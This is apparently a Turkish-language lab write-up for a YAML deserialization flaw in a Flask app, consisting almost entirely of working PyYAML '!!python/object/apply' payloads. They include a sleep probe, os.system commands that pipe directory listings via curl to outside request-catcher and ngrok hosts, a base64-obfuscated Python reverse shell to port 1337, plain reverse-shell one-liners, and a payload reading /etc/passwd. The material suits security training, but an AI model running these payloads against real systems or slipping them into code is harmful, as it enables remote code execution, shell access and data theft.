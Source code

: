 # Deserilation Flask Yaml

```
GELİŞTİRİCEYE NOTLAR:
- Python
```

```
LAB NOTLARI:
- Burpsuite kullanıcak
- Collabrator
```

**Çözüm**:


- Sistemde Python ile RCE almak

data dizinine gidilecek
inputa değer girilecek 
burp suite ile değer yakanılacak ve exploit etmek için base 64 değer girilmeli yani
Payload 
!!python/object/apply:time.sleep [2] bu verinin base 64 hali olmalı yani ISFweXRob24vb2JqZWN0L2FwcGx5OnRpbWUuc2xlZXAgWzEwXQ==
rce içinse burp collabrator kullan ve
!!python/object/apply:os.system [" ls-la | curl -X POST --data-binary @- https://deserilisation.requestcatcher.com/test"] 
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - python3
  - -c
  - "exec('aW1wb3J0IHNvY2tldCAgICAgICAgLCAgc3VicHJvY2VzcyAgICAgICAgLCAgb3MgICAgOyAgIGhvc3Q9IjE5Mi4xNjguMTMuMzkiICAgIDsgICBwb3J0PTEzMzcgICAgOyAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgICAgICAgLCAgc29ja2V0LlNPQ0tfU1RSRUFNKSAgICA7ICAgcy5jb25uZWN0KChob3N0ICAgICAgICAsICBwb3J0KSkgICAgOyAgIG9zLmR1cDIocy5maWxlbm8oKSAgICAgICAgLCAgMCkgICAgOyAgIG9zLmR1cDIocy5maWxlbm8oKSAgICAgICAgLCAgMSkgICAgOyAgIG9zLmR1cDIocy5maWxlbm8oKSAgICAgICAgLCAgMikgICAgOyAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ==')[0]))"
  
  bu verinin de base64 hali olmalı

!!python/object/apply:os.system [" ls-la | curl -X POST --data-binary @- jydhsyf7xas78nr7.b.requestbin.net"]
python3 -c 'import socket; from subprocess import run; from os import dup2;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.13.39",1337)); dup2(s.fileno(),0); dup2(s.fileno(),1); dup2(s.fileno(),2);run(["/bin/bash","-i"]);'

!!python/object/apply:os.system [" python3 -c 'import socket; from subprocess import run; from os import dup2;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((192.168.13.39,1337)); dup2(s.fileno(),0); dup2(s.fileno(),1); dup2(s.fileno(),2);run(["/bin/bash","-i"]);' "]
!!python/object/apply:os.system [" ls-la | curl -X POST --data-binary @- https://def9-24-133-49-120.ngrok.io"]

!!python/object/apply:subprocess.Popen
- !!python/tuple
  - cat
    - /etc/passwd